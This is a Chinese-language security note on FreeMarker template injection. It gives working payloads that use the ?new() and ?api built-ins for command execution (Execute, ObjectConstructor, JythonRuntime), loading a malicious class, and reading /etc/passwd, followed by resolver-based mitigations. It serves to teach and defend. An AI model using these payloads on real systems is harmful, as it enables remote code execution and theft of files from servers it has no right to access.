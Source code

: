 payload

#### 应用场景

* freemarker与Thymeleaf和Velocity不同，无法直接传参攻击。攻击点主要在上传模板、修改模板等功能处。
* 下面介绍的两种内建函数可以达到命令执行的效果，但api函数必须在配置项api_builtin_enabled为true时才有效，该配置在2.3.22版本后默认为false

#### new内建函数利用

* 调用Runtime.getRuntime().exec进行命令执行

```html
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc.exe")}
```

* 实例化可执行对象进行命令执行

```java
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","calc.exe").start()}
```

* 利用freemarker.template.utility.JythonRuntime来执行Jython脚本

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```

这需要有相关的依赖，但是我添加相关依赖后仍然没有成功

```xml
<dependency>
            <groupId>org.python</groupId>
            <artifactId>jython</artifactId>
            <version>2.5.3</version>
</dependency>
```

#### api内建函数利用

* 加载恶意类

```html
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}
```

* 任意文件读取

```html
<#assign uri=object?api.class.getResource("/").toURI()> <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()> <#assign is=input?api.getInputStream()> FILE:[<#list 0..999999999 as _> <#assign byte=is.read()> <#if byte == -1> <#break> </#if> ${byte}, </#list>]
```

#### 漏洞防御和修复

从 2.3.17版本以后，官方版本提供了三种TemplateClassResolver对类进行解析： 1、UNRESTRICTED_RESOLVER：可以通过 ClassUtil.forName(className) 获取任何类。 2、SAFER_RESOLVER：不能加载 freemarker.template.utility.JythonRuntime 、 freemarker.template.utility.Execute 、 freemarker.template.utility.ObjectConstructor 这三个类。 3、ALLOWS_NOTHING_RESOLVER：不能解析任何类。 可通过freemarker.core.Configurable#setNewBuiltinClassResolver 方法设置 TemplateClassResolver ，从而限制通过 new() 函数对freemarker.template.utility.JythonRuntime 、 freemarker.template.utility.Execute 、 freemarker.template.utility.ObjectConstructor 这三个类的解析。